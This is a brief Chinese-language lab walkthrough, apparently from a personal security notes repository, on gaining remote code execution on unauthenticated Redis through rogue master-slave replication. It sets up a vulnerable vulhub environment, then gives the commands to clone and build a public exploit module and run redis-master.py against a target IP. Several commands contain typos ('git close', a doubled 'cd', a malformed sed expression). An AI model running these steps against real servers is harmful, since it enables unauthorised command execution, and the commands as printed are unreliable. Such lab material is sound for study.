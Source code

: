 ## Redis基于主从复制的RCE利用方式
**参考：**

- https://github.com/vulhub/vulhub/tree/master/redis/4-unacc

### 环境搭建

redis环境配置：
```bash
cd /root
wget http://download.redis.io/releases/redis-5.0.0.tar.gz
tar xzf redis-5.0.0.tar.gz
cd redis-5.0.0
make
sed -i 's/127.0.0.1/0.0.0.0' redis.conf
cd src
./redis-server /root/redis-5.0.0.0/redis.conf
```

vulhub:

```bash
url：https://github.com/vulhub/vulhub/tree/master/redis/4-unacc
docker-compose up -d
```



### 攻击

下载脚本并攻击
```bash
git close https://github.com/vulhub/redis-rogue-getshell
apt-get install gcc make
cd cd RedisModulesSDK/exp/
make
python redis-master.py -r target-ip -p 6379 -L local-ip -P 8888 -f RedisModulesSDK/exp/exp.so -c "id"
```
![](/images/19-7-10_SQL_Redis基于主从复制的RCE利用方式_1.png)